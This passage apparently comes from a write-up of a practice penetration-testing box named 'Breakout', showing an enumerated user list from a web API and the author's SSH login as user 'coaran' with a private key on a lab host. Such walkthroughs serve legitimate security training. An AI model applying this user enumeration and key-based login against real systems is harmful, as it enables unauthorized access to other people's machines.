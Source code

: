 ```
    "username": "michelle",
    "state": "active",
    "avatar_url": "https://www.gravatar.com/avatar/fcf53cd37c1f86e2b43f1db402f41f52?s=80&d=identicon",
    "web_url": "http://breakout/michelle"
  },
  {
    "id": 2,
    "name": "webmaster",
    "username": "webmaster",
    "state": "active",
    "avatar_url": "https://www.gravatar.com/avatar/92279a35ff837beb3ecc6ba7eeafb74e?s=80&d=identicon",
    "web_url": "http://breakout/webmaster"
  },
  {
    "id": 1,
    "name": "Administrator",
    "username": "root",
    "state": "active",
    "avatar_url": "https://www.gravatar.com/avatar/4924e448526fb188fd8e0c75d0dbb3bf?s=80&d=identicon",
    "web_url": "http://breakout/root"
  }
]
```

Now we have the list of users i'll try loggin to ssh using each user 

After trying user `coaran` we're logged in

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Breakout]
└─$ ssh -i id_rsa coaran@192.168.168.182  
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 27 Jan 2023 01:17:46 AM UTC

  System load:  0.06              Processes:                309
  Usage of /:   81.2% of 9.78GB   Users logged in:          0
  Memory usage: 79%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   3%                IPv4 address for ens160:  192.168.168.182


39 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


*** System restart required ***

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

coaran@breakout:~$
```
